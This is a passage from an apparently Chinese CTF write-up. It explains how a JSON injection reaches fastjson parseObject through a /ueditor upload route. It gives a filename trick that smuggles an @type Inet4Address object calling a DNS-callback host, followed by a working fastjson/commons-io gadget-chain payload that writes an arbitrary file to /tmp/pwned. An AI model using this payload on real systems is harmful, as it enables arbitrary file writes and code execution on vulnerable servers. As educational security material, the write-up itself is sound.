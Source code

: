 接着触发`toJSONString`通过拼接把恶意字符处理为字符串。

![Alt text](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/1694868670291.png)


发现以上函数调用可以通过`/ueditor`路由触发，其中返回的`json`为恶意字符串，最终把`json`传给了`uploadService#uploadHandle`。因此我们可以看看`uplodaHandle`方法干了啥，使得一个小小的`JSON`注入隐患造成远程命令执行。

![image-20240217194225885](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/image-20240217194225885.png)

#### fastjson common-io任意文件写

题目逻辑我都删减的差不多了，`uploadHandle`通过`parseObject`方法对恶意字符串进行解析，可以看到`json`已经被污染了。

![Alt text](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/image-5.png)

很明显`parseObject`有问题，本题用到的`fastjson`为`1.2.66`，版本不高因此存在利用的可能。观察`pom.xml`发现存在`commons-io 2.7`（多提一嘴`ueditor.jar`本身就引入了`common-io`）。不难想到`fastjson1.2.68`结合`common-io2.x`可以打一个任意文件写入，构造原理可以参考`su18`师傅发的博客。值得注意的一点是`json`的第一个属性`"state":"SUCCESS`"是不可控的，可能不太了解`fastjson`利用的师傅看到这里就绝望了，因为网上的`payload`都是`@Type`作为第一个属性开头的呀。其实这里一个小`trick`令`filename`为`flag",{"@type":"java.net.Inet4Address","val":"bgb5eh.ceye.io"},"a":".txt`即可正常恢复`Java Bean`。

```json
{
  "@type":"java.lang.AutoCloseable",
  "@type":"org.apache.commons.io.input.XmlStreamReader",
  "is":{
    "@type":"org.apache.commons.io.input.TeeInputStream",
    "input":{
      "@type":"org.apache.commons.io.input.ReaderInputStream",
      "reader":{
        "@type":"org.apache.commons.io.input.CharSequenceReader",
        "charSequence":{"@type":"java.lang.String""aaaaaa"
      },
      "charsetName":"UTF-8",
      "bufferSize":1024
    },
    "branch":{
      "@type":"org.apache.commons.io.output.WriterOutputStream",
      "writer": {
        "@type":"org.apache.commons.io.output.FileWriterWithEncoding",
        "file": "/tmp/pwned",
        "encoding": "UTF-8",
        "append": false
      },
      "charset": "UTF-8",
      "bufferSize": 1024,
      "writeImmediately": true
    },
    "closeBranch":true
  },
  "httpContentType":"text/xml",
  "lenient":false,
  "defaultEncoding":"UTF-8"
}
```
